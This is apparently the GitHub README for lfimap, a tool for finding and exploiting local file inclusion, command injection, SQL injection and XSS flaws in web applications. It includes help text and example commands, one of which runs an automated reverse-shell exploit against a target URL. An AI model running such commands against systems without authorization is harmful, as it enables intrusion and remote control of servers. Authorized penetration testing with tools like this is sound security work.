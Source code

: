 # lfimap
## Local file inclusion discovery and exploitation tool

### Main features
- Filter wrapper for arbitrary file inclusion
- Data wrapper for remote command execution
- Input wrapper for remote command execution
- Expect wrapper for remote command execution
- File wrapper for arbitrary file inclusion
- Path truncation for arbitrary file inclusion
- Remote file inclusion for code execution
- Command injection for remote command execution
- Generic time based blind sql injection testing
- Basic reflected XSS testing
- Support for POST argument testing
- Support for custom http headers
- Support for specifying cookies for authenticated requests
- Support for specifying web proxy to send requests through
- Support for specifying delay in between requests
- Support for payload manipulation via url and base64 encoding(s)
- Support for automated reverse shell access upon successful remote code execution

### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)

### What features are working
- Scan parameters for local file inclusion using wrappers (filter, input, data, expect, file)
- Scan parameters for path traversal (different bypasses, nullbyte, path normalization, string stripping injection, single and double URL encoding, etc..)
- Scan parameters for remote file inclusion (remote internet facing website, if LHOST address is provided test by hosting a file on local web server)
- Scan parameters for results-based and blind command injection (different injection sequences, icmp exfil, shell variable usage to bypass character restrictions)
- Scan parameters for basic blind sql injection (currently supports only MySQL and MsSQL)
- Scan parameters for unsanitized reflection (Basic reflected XSS check)
- Inline check for arbitrary open redirection
- Supports scans for GET and POST parameters
- Supports scans through a proxy
- Supports scans with custom session cookies, user-agent, referer and/or HTTP headers
- Supports scans and exploitation with delay in between requests
- Supports scans and exploitation for windows and linux web servers
- Supports automated reverse shell upon RCE detection (Current methods that support this are: data, input and expect wrappers, remote file inclusion, command injection, http access log poisoning)

### What features will work in future
- RCE attack using /self/fd, /self/environ techniques and http error log poisoning
- Better Generic blind SQLi test support for Oracle, MsSQL and PostgreSQL database engines
- Automatic parameter recognition, select parameters to test with * (star) value or with '-p' parameter
- Support testing with raw http request from a file
- Support to test and exploit HTTP header values
- Enumeration category of options that will use found vulnerabilities to find out more about the system
- Output results to a file
- False positive check

### -h, --help

```                  
usage: lfimap.py [-U [url]] [-F [urlfile]] [-C <cookie>] [-D <data>] [-H <header>] [-P <proxy>] [--useragent <agent>] [--referer <referer>] [--param <name>]
                 [--http-ok <number>] [--no-stop] [-f] [-i] [-d] [-e] [-t] [-r] [-c] [--file] [--xss] [--sqli] [--info] [-a] [-n <U|B>] [-x] [--lhost <lhost>]
                 [--lport <lport>] [-wT <path>] [--use-long] [-v] [-h]

lfimap, Local File Inclusion discovery and exploitation tool

MANDATORY:
  -U [url]             		 Specify url, Ex: "http://example.org/vuln.php?param=PWN" 
  -F [urlfile]         		 Specify url wordlist (every line should have --param|'PWN'.)

GENERAL OPTIONS:
  -C <cookie>          		 Specify session cookie, Ex: "PHPSESSID=1943785348b45"
  -D <data>            		 Do HTTP POST value test. Ex: "param=PWN"
  -H <header>          		 Specify additional HTTP header(s). Ex: "X-Forwarded-For:127.0.0.1"
  -P <proxy>           		 Specify proxy. Ex: "http://127.0.0.1:8080"
  --useragent <agent>  		 Specify HTTP user agent
  --referer <referer>  		 Specify HTTP referer
  --param <name>       		 Specify different test parameter value
  --http-ok <number>   		 Specify http response code(s) to treat as valid
  --no-stop            		 Don't stop using same method upon findings

ATTACK TECHNIQUE:
  -f, --filter         		 Attack using filter wrapper
  -i, --input          		 Attack using input wrapper
  -d, --data           		 Attack using data wrapper
  -e, --expect         		 Attack using expect wrapper
  -t, --trunc          		 Attack using path truncation with wordlist (default "short.txt")
  -r, --rfi            		 Attack using remote file inclusion
  -c, --cmd            		 Attack using command injection
  --file               		 Attack using file wrapper
  --xss                		 Test for reflected XSS
  --sqli               		 Test for SQL injection
  --info               		 Test for basic information disclosures
  -a, --all            		 Use all available methods to attack

PAYLOAD OPTIONS:
  -n <U|B>             		 Specify payload encoding(s). "U" for URL, "B" for base64
  -x, --exploit        		 Exploit to reverse shell if possible (Setup reverse listener first)
  --lhost <lhost>      		 Specify local ip address for reverse connection
  --lport <lport>      		 Specify local port number for reverse connection

WORDLIST OPTIONS:
  -wT <path>           		 Specify path to wordlist for truncation test modality
  --use-long           		 Use "wordlists/long.txt" wordlist for truncation test modality

OTHER:
  -v, --verbose        		 Print more detailed output when performing attacks
  -h, --help           		 Print this help message
  
```

### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a`  

![Lfimap-1](https://user-images.githubusercontent.com/57464251/186299395-c6a91666-0e95-484e-8537-6f248d257f5b.png)


#### 2) Reverse shell command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![Lfimap-2](https://user-images.githubusercontent.com/57464251/186299661-7d6b480b-953f-4a7e-a806-5f39435f07fd.png)


#### 3) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=PWN" -a`

![Lfimap-3](https://user-images.githubusercontent.com/57464251/186302047-0a2e9ab9-e4f0-43bb-b245-0235b6950ea0.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.

